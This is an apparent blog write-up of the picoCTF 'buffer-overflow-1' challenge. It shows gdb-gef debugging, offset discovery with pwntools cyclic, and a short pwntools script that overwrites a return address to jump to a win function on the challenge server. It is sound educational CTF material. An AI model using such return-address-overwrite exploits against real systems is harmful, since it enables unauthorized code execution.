 ```yaml
---
layout: post
title: "PicoCTF: buffer-overflow-1"
date: 2023-01-11 17:36 -05:00
categories: [binary exploitation]
tags: [binary,  exploitation, reverse,  engineering]
---
```

When I was younger, I was always fascinated with the idea of being able to break things digitally. However, I always believed that I was not smart enough to pursue this. In 2022, I have decided to start learning reverse engineering again! Starting out, I have started the Modern Binary Exploitation crackme files, and have been doing the picoCTF training ones as well. In this article I will cover picoCTF buffer-overflow1!

<!--more-->

Start
---

Firstly, lets create a new directory called `bufferoverflow1` or whatever you would like to call it, then cd into that directory and wget both the vuln file and vuln.c file. Opening vuln.c with nano shows this:
![image](/assets/img/1/p1.png)()

It looks like buf is a character buffer with a size of 64 bytes. We also have a function called win, but win is never called... So how do we go about calling win? Well, firstly lets run vuln to see how it works. Mark it as executable with `chmod +x vuln` and then type `./vuln`
Entering any input should be fine here, so let's enter hello. After entering hello, we get the output:

```Okay, time to return... Fingers Crossed... Jumping to 0x804932f.``` 

Ok, so lets break this! Lets open gdb-gef (make sure you have gdb installed first then: [download gdb-gef](https://github.com/hugsy/gef)), and type `b main` to set a breakpoint at the main function. Then type `r` to resume.
![image](/assets/img/1/p2.png)

We should be seeing something like this. Now what we can do is use pwntools (`pip install pwntools`) cyclic to generate a recognizable string for us. If we type `shell cyclic 64` and copy the output of that, we can type `c` again to continue. If we now paste in our string, and enter, we should see something like this:
![image](/assets/img/1/p3.png)

If we look, we can see that vuln has been stopped at `0x61616c` with value `laaa`. If we now search for this pattern, using `search pattern 0x6161616c`, we can see two offsets. 44 for little endian and 41 for big endian. Just make note of these two for now. Now we need to get the address of the win function so that we can make our exploit redirect to the memory address of win. Type `x win` and note that as well. Lets exit gdb and type `file vuln`. The output tells us that vuln is an LSB executable and LSB corresponds to little endian, so vuln is in little endian. What is an endian you might ask? Well, endian is the way that our computers read and organize data. Little endian stores data with LSB first, and big endian stores data with MSB first. Ok, now we have our offset of 44. Now it is time to write out payload!

Payload
---

These 9 lines are our entire payload! Let's go over what each line does.
![output](/assets/img/1/p4.png)
```python
1. from pwn import * 
# we import pwntools.
2. payload = b'A'*44 
# we make a variable: payload that contains the bytes of 44 A's.
3. payload += p32(0x80491f6) 
# we add the memory address of win, converted to little endian, to our payload.
4. host, port = "saturn.picoctf.net", "[EXAMPLE_PORT]" 
# we create two new variables named host and port. Put your port in example port.
5. connection = remote(host, port) 
# using pwntools remote, we create connection using our host and port.
6. log.info(connection.recvS()) 
# log is used to make our output pretty, and we make log output connection.recvS(), and recvS means read data silently.
7. connection.sendline(payload) 
# we send our payload to our connection.
8. log.success(connection.recvallS()) 
# if our log succeeds, output connection.recvallS(), which means read all bytes silently.
9. connection.close() 
# close our connection.
```

Alright, lets run this now! Going back to our terminal, we can type `python3 payload.py`:


Looking at our output, clearly everything worked smoothly. If we look, we can see that the program says time to jump with the memory address of `0x80491f6`. If we remember earlier, this is the memory address of win, which prints our flag!

Conclusion
---
This was a very basic introduction to binary exploitation, and I hope to be able to cover more in the future!